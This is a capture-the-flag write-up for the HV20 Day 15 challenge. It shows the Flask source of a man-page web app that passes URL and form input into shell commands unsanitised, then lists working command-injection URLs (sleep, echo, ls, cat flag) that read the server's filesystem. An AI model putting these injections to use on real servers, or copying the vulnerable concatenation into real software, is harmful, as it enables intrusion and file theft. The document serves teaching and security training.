 [← Hidden 02](../hid02/) / [↑ TOC](../README.md) / [→ Day 16](../day16/)


# Day 15 / HV20.15 Man Commands, Server Lost


## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: inik
* Tags:   `#penetration-testing` `#web-security`
* Level:  Hard

### Introduction

Elf4711 has written a cool front end for the linux man pages. Soon after
publishing he got pwned. In the meantime he found out the reason and improved
his code. So now he is sure it's unpwnable.


### Notes

* You need to start the web application from the `RESOURCES` section on top
* This challenge requires a VPN connection into the Hacking-Lab. Check out the
  document in the `RESOURCES` section.

### Hints

* Don't miss the source code link on the man page


### Resources

* Man Commands server instance
* Student VPN instructions



## Solution

The challenge's web application looks like this:

![](screenshot_man_server.png)

… and here is the web app's source code …

```python
# flask_web/app.py

from flask import Flask,render_template,redirect, url_for, request
import os
import subprocess
import re

app = Flask(__name__)

class ManPage:
  def __init__(self, name, section, description):
    self.name = name
    self.section = section
    self.description = description

@app.route('/')
def main():
  return redirect('/man/1/man')

@app.route('/section/')
@app.route('/section/<nr>')
def section(nr="1"):
  ret = os.popen('apropos -s ' + nr + " .").read()
  return render_template('section.html', commands=parseCommands(ret), nr=nr)

@app.route('/man/')
@app.route('/man/<section>/<command>')
def manpage(section=1, command="bash"):
  manFile = "/usr/share/man/man" + str(section) + "/" + command + "." + str(section) + ".gz"
  cmd = 'cat ' + manFile + '| gunzip | groff -mandoc -Thtml'
  try: 
    result = subprocess.run(['sh', '-c', cmd ], stdout=subprocess.PIPE)
  except subprocess.CalledProcessError as grepexc:                                                                                                   
    return render_template('manpage.html', command=command, manpage="NOT FOUND")

  html = result.stdout.decode("utf-8")
  htmlLinked = re.sub(r'(<b>|<i>)?([a-zA-Z0-9-_.]+)(</b>|</i>)?\(([1-8])\)', r'<a href="/man/\4/\2">\1\2\3</a><a href="/section/\4">(\4)</a>', html)
  htmlStripped = htmlLinked[htmlLinked.find('<body>') + 6:htmlLinked.find('</body>')]
  return render_template('manpage.html', command=command, manpage=htmlStripped)

@app.route('/search/', methods=["POST"])
def search(search="bash"):
  search = request.form.get('search')
  # FIXED Elf4711: Cleaned search string, so no RCE is possible anymore
  searchClean = re.sub(r"[;& ()$|]", "", search)
  ret = os.popen('apropos "' + searchClean + '"').read()
  return render_template('result.html', commands=parseCommands(ret), search=search)
  
def parseCommands(ret):
  commands = []
  for line in ret.split('\n'):
    l = line.split(' - ')
    if (len(l) > 1):
      m = l[0].split();
      manPage = ManPage(m[0], m[1].replace('(', '').replace(')',''), l[1])
      commands.append(manPage)
  return commands

if __name__ == "__main__":
  app.run(host='0.0.0.0' , port=7777)
```


### Interpreting the attack possibilities

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
One of the three entry points is better than the others for an injection. It's
the one with `@app.route('/man/')`. Through that it is even possible to print
results back to the web page as the `command` variable is **not** parsed there.

`return render_template('manpage.html', command=command, manpage=htmlStripped)`

And that means that it's not necessary to use a reverse shell contrary to what
the challenge description says.

Here follows a list of increasingly better injections …

* `/man/1/man; sleep 5; %23`

   Output: ``

   This injection just makes the server wait for 5 seconds in order to verify 
   that an injection is possible.

* `/man/1/man; echo "oooooohhhhhhh my" ; %23`

   Output: `ohhhhhhh my`

   This injection shows that output to the webpage is possible. It also
   demonstrates that the first 5 characters from an output get cut away.

* `/man/1/man; echo "12345"; pwd; echo ""; ls; %23`

   Output: `/ bin boot dev etc flag home lib lib64 media mnt opt […]`

   This injection shows that access on the remote file system works perfectly
   (except for printing newline characters).

* `/man/1/man; echo "12345"; cat flag; echo " "; %23`

   Output: `HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`

   This injection gets the flag.

--------------------------------------------------------------------------------

Flag: `HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`

[← Hidden 02](../hid02/) / [↑ TOC](../README.md) / [→ Day 16](../day16/)
